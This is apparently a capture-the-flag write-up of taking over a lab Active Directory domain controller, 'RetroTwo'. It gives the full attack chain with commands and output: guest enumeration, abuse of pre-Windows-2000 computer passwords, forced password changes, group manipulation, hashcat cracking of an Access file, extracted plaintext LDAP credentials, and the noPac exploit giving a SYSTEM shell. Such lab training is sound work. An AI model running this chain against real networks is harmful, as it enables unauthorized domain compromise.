



# RetroTwo
## Host file setup
```python
sudo nxc smb 10.129.12.5 --generate-hosts-file /etc/hosts 
[sudo] password for kali: 
SMB         10.129.12.5     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
```
Added an entry into `/etc/hosts`

SMB signing is enabled

SMBv1 

Null auth enabled

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.12.5 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 15:47 +0100
Nmap scan report for 10.129.12.5
Host is up (0.018s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5722/tcp  open  msdfsr
9389/tcp  open  adws
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.29 seconds
```
### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5722,9389 -A --min-rate=2000 -sT 10.129.12.5
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 15:49 +0100
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 85.71% done; ETC: 15:50 (0:00:02 remaining)
Nmap scan report for BLN01.retro2.vl (10.129.12.5)
Host is up (0.020s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15F75)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-30 14:50:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds  Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=BLN01.retro2.vl
| Not valid before: 2026-03-29T14:45:09
|_Not valid after:  2026-09-28T14:45:09
|_ssl-date: 2026-03-30T14:51:39+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETRO2
|   NetBIOS_Domain_Name: RETRO2
|   NetBIOS_Computer_Name: BLN01
|   DNS_Domain_Name: retro2.vl
|   DNS_Computer_Name: BLN01.retro2.vl
|   Product_Version: 6.1.7601
|_  System_Time: 2026-03-30T14:50:59+00:00
5722/tcp open  msrpc         Microsoft Windows RPC
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|2012|Phone (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%), Microsoft Windows 8.1 Update 1 (89%), Microsoft Windows Phone 7.5 or 8.0 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: BLN01; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
DC is running at -1h

## SMB 
Null auth enanbled but cannot use it to enumerate any shares or users
### Guest access
#### Shares
```python
nxc smb bln01.retro2.vl -u 'Guest' -p '' --shares
SMB         10.129.12.5     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.12.5     445    BLN01            [+] retro2.vl\Guest: 
SMB         10.129.12.5     445    BLN01            [*] Enumerated shares
SMB         10.129.12.5     445    BLN01            Share           Permissions     Remark
SMB         10.129.12.5     445    BLN01            -----           -----------     ------
SMB         10.129.12.5     445    BLN01            ADMIN$                          Remote Admin
SMB         10.129.12.5     445    BLN01            C$                              Default share
SMB         10.129.12.5     445    BLN01            IPC$                            Remote IPC
SMB         10.129.12.5     445    BLN01            NETLOGON                        Logon server share 
SMB         10.129.12.5     445    BLN01            Public          READ            
SMB         10.129.12.5     445    BLN01            SYSVOL                          Logon server share
```
Only read access on one share

#### Users
```python
nxc smb bln01.retro2.vl -u 'Guest' -p '' --rid-brute             
SMB         10.129.12.5     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.12.5     445    BLN01            [+] retro2.vl\Guest: 
SMB         10.129.12.5     445    BLN01            498: RETRO2\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            500: RETRO2\Administrator (SidTypeUser)
SMB         10.129.12.5     445    BLN01            501: RETRO2\Guest (SidTypeUser)
SMB         10.129.12.5     445    BLN01            502: RETRO2\krbtgt (SidTypeUser)
SMB         10.129.12.5     445    BLN01            512: RETRO2\Domain Admins (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            513: RETRO2\Domain Users (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            514: RETRO2\Domain Guests (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            515: RETRO2\Domain Computers (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            516: RETRO2\Domain Controllers (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            517: RETRO2\Cert Publishers (SidTypeAlias)
SMB         10.129.12.5     445    BLN01            518: RETRO2\Schema Admins (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            519: RETRO2\Enterprise Admins (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            520: RETRO2\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            521: RETRO2\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            553: RETRO2\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.12.5     445    BLN01            571: RETRO2\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.12.5     445    BLN01            572: RETRO2\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.12.5     445    BLN01            1000: RETRO2\admin (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1001: RETRO2\BLN01$ (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1102: RETRO2\DnsAdmins (SidTypeAlias)
SMB         10.129.12.5     445    BLN01            1103: RETRO2\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            1104: RETRO2\staff (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            1105: RETRO2\Julie.Martin (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1106: RETRO2\Clare.Smith (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1107: RETRO2\Laura.Davies (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1108: RETRO2\Rhys.Richards (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1109: RETRO2\Leah.Robinson (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1110: RETRO2\Michelle.Bird (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1111: RETRO2\Kayleigh.Stephenson (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1112: RETRO2\Charles.Singh (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1113: RETRO2\Sam.Humphreys (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1114: RETRO2\Margaret.Austin (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1115: RETRO2\Caroline.James (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1116: RETRO2\Lynda.Giles (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1117: RETRO2\Emily.Price (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1118: RETRO2\Lynne.Dennis (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1119: RETRO2\Alexandra.Black (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1120: RETRO2\Alex.Scott (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1121: RETRO2\Mandy.Davies (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1122: RETRO2\Marilyn.Whitehouse (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1123: RETRO2\Lindsey.Harrison (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1124: RETRO2\Sally.Davey (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1127: RETRO2\ADMWS01$ (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1128: RETRO2\inventory (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1129: RETRO2\services (SidTypeGroup)
SMB         10.129.12.5     445    BLN01            1130: RETRO2\ldapreader (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1131: RETRO2\FS01$ (SidTypeUser)
SMB         10.129.12.5     445    BLN01            1132: RETRO2\FS02$ (SidTypeUser)
```
Using `cut` ive created a user list from this

#### `Public` share
```python
smbclient //bln01.retro2.vl/Public -U 'Guest'%''            
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 17 15:30:37 2024
  ..                                  D        0  Sat Aug 17 15:30:37 2024
  DB                                  D        0  Sat Aug 17 13:07:06 2024
  Temp                                D        0  Sat Aug 17 12:58:05 2024

		6290943 blocks of size 4096. 821255 blocks available
smb: \> cd DB\
smb: \DB\> ls
  .                                   D        0  Sat Aug 17 13:07:06 2024
  ..                                  D        0  Sat Aug 17 13:07:06 2024
  staff.accdb                         A   876544  Sat Aug 17 15:30:19 2024

		6290943 blocks of size 4096. 821255 blocks available
smb: \DB\> get staff.accdb
```
Found an interesting file

There was nothing in `Temp`

Since everything about this box is old im thinking i can try the user as the password for the machine accouts

## Compromising `FS01$` and `FS02$` 
```python
nxc ldap bln01.retro2.vl -u 'FS01$' -p 'fs01' -M pre2k -k
LDAP        bln01.retro2.vl 389    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 (name:BLN01) (domain:retro2.vl) (signing:None) (channel binding:No TLS cert)
LDAP        bln01.retro2.vl 389    BLN01            [+] retro2.vl\FS01$:fs01 
PRE2K       bln01.retro2.vl 389    BLN01            Pre-created computer account: FS01$
PRE2K       bln01.retro2.vl 389    BLN01            Pre-created computer account: FS02$
PRE2K       bln01.retro2.vl 389    BLN01            [+] Found 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/retro2.vl/precreated_computers.txt
PRE2K       bln01.retro2.vl 389    BLN01            [+] Successfully obtained TGT for fs01@retro2.vl
PRE2K       bln01.retro2.vl 389    BLN01            [+] Successfully obtained TGT for fs02@retro2.vl
PRE2K       bln01.retro2.vl 389    BLN01            [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/ccache
```
Found two computer accounts that are pre-created

>When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.
>- TheHackerRecipes

Conventiently the module in nxc has saved a TGT for both accounts but in this case ill just use the password

## Bloodhound
```python
nxc ldap bln01.retro2.vl --use-kcache --dns-server 10.129.12.5 --bloodhound -c All           
LDAP        bln01.retro2.vl 389    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 (name:BLN01) (domain:RETRO2.VL) (signing:None) (channel binding:No TLS cert)
LDAP        bln01.retro2.vl 389    BLN01            [+] RETRO2.VL\fs01 from ccache 
LDAP        bln01.retro2.vl 389    BLN01            Resolved collection methods: group, objectprops, dcom, rdp, session, container, acl, psremote, trusts, localadmin
LDAP        bln01.retro2.vl 389    BLN01            Using kerberos auth from ccache
LDAP        bln01.retro2.vl 389    BLN01            Done in 0M 4S
LDAP        bln01.retro2.vl 389    BLN01            Compressing output into /home/kali/.nxc/logs/BLN01_bln01.retro2.vl_2026-03-30_162250_bloodhound.zip
```
Using the TGT i got from nxc i can collect the bloodhound data


As seen from this image i have `ForceChangePassword` on the `ADMWS01`. The same is also true for `FS02` but i have already compromise that computer

## Compromising `admws01$`
```python
bloodyAD -d retro2.vl -u 'FS01$' -k --host bln01.retro2.vl set password 'ADMWS01$' 'dmuhackers123!'
[+] Password changed successfully!
```
This changed the password

```python
nxc smb bln01.retro2.vl -u 'ADMWS01$' -p 'dmuhackers123!'         
SMB         10.129.12.5     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.12.5     445    BLN01            [+] retro2.vl\ADMWS01$:dmuhackers123!
```
This machine account has now been compromised

This machine account has no extra privs on SMB

### Bloodhound on `ADMWS01$`

As seen here i have privs over the previously compromised machine accounts, this isnt helpful

But i also have `AddMember` and `AddSelf` on the services group

The service group is also a member of the remote desktop users group

### Adding `admws01$` to the `services` group

```python
net rpc group addmem "services" "admws01$" -U "retro2.vl"/"admws01$"%'dmuhackers123!' -S "10.129.12.5"
```
This added me to the group

Now im at a dead end im in the same group as the inventory user but have privs over the account

Im going to revisit the file i found at the start and see if i can find credentials to a user account since i cannot RDP as a machine account

## Access over RDP
After transferring the file to my windows machine i can see its password protected so ill crack it in kali

```python
office2john staff.accdb | tee accdb.hash  
staff.accdb:$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235
```
This generated a hash for me to crack

```python
hashcat accdb.hash /usr/share/wordlists/rockyou.txt --user

$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235:class08
```
Cracked the hash now i should be able to access the file

### VBS script found in .accdb file
```python
Option Compare Database

Sub ImportStaffUsersFromLDAP()
    Dim objConnection As Object
    Dim objCommand As Object
    Dim objRecordset As Object
    Dim strLDAP As String
    Dim strUser As String
    Dim strPassword As String
    Dim strSQL As String
    Dim db As Database
    Dim rst As Recordset
    
    strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
    strUser = "retro2\ldapreader"
    strPassword = "ppYaVcB5R"
    
    Set objConnection = CreateObject("ADODB.Connection")
    
    objConnection.Provider = "ADsDSOObject"
    objConnection.Properties("User ID") = strUser
    objConnection.Properties("Password") = strPassword
    objConnection.Properties("Encrypt Password") = True
    objConnection.Open "Active Directory Provider"
    
    Set objCommand = CreateObject("ADODB.Command")
    objCommand.ActiveConnection = objConnection
    
    objCommand.CommandText = "<" & strLDAP & ">;(objectCategory=person);cn,distinguishedName,givenName,sn,sAMAccountName,userPrincipalName,description;subtree"
    
    Set objRecordset = objCommand.Execute
    
    Set db = CurrentDb
    Set rst = db.OpenRecordset("StaffMembers", dbOpenDynaset)
    
    Do Until objRecordset.EOF
        rst.AddNew
        rst!CN = objRecordset.Fields("cn").Value
        rst!DistinguishedName = objRecordset.Fields("distinguishedName").Value
        rst!GivenName = Nz(objRecordset.Fields("givenName").Value, "")
        rst!SN = Nz(objRecordset.Fields("sn").Value, "")
        rst!sAMAccountName = objRecordset.Fields("sAMAccountName").Value
        rst!UserPrincipalName = Nz(objRecordset.Fields("userPrincipalName").Value, "")
        rst!Description = Nz(objRecordset.Fields("description").Value, "")
        rst.Update
        
        objRecordset.MoveNext
    Loop
    
    rst.Close
    objRecordset.Close
    objConnection.Close
    Set rst = Nothing
    Set objRecordset = Nothing
    Set objCommand = Nothing
    Set objConnection = Nothing
    
    MsgBox "Staff users imported successfully!", vbInformation
End Sub
```
As seen from this output there is credentials for a user account

```python
nxc smb bln01.retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'
SMB         10.129.12.5     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.12.5     445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R
```
This user has been compromised and with this user account i should be able to use `admws01$` to add this user to the services group, the user will then inherit RDP rights since the services group is a member of remote desktop users

```python
net rpc group addmem "services" "ldapreader" -U "retro2.vl"/"admws01$"%'dmuhackers123!' -S "10.129.12.5"
```
This added the user `ldapreader` to the services group

```python
net rpc group members "services" -U "retro2.vl"/"admws01$"%'dmuhackers123!' -S "10.129.12.5" 
RETRO2\ADMWS01$
RETRO2\inventory
RETRO2\ldapreader
```
So now i should be able to RDP 


## Domain admin
Now i have access over RDP i can look for priv esc vectors

```python
nxc smb bln01.retro2.vl -u 'ldapreader' -p 'ppYaVcB5R' -M nopac                                
SMB         10.129.12.5     445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.12.5     445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
NOPAC       10.129.12.5     445    BLN01            TGT with PAC size 1435
NOPAC       10.129.12.5     445    BLN01            TGT without PAC size 694
NOPAC       10.129.12.5     445    BLN01            
NOPAC       10.129.12.5     445    BLN01            VULNERABLE
NOPAC       10.129.12.5     445    BLN01            Next step: https://github.com/Ridter/noPac
```
Looks like its vulnerable to noPac

```python
python3 noPac.py retro2.vl/ldapreader:ppYaVcB5R -dc-ip 10.129.12.5 -dc-host BLN01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target BLN01.retro2.vl
[*] will try to impersonate administrator
[*] Adding Computer Account "WIN-VPN43YUE8B9$"
[*] MachineAccount "WIN-VPN43YUE8B9$" password = (*lmZyZdvEqe
[*] Successfully added machine account WIN-VPN43YUE8B9$ with password (*lmZyZdvEqe.
[*] WIN-VPN43YUE8B9$ object = CN=WIN-VPN43YUE8B9,CN=Computers,DC=retro2,DC=vl
[*] WIN-VPN43YUE8B9$ sAMAccountName == BLN01
[*] Saving a DC's ticket in BLN01.ccache
[*] Reseting the machine account to WIN-VPN43YUE8B9$
[*] Restored WIN-VPN43YUE8B9$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving a user's ticket in administrator.ccache
[*] Rename ccache to administrator_BLN01.retro2.vl.ccache
[*] Attempting to del a computer with the name: WIN-VPN43YUE8B9$
[-] Delete computer WIN-VPN43YUE8B9$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled 

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
||cb462daa07d7539de053bb9308658759||
C:\Windows\system32>
```
Domain admin!
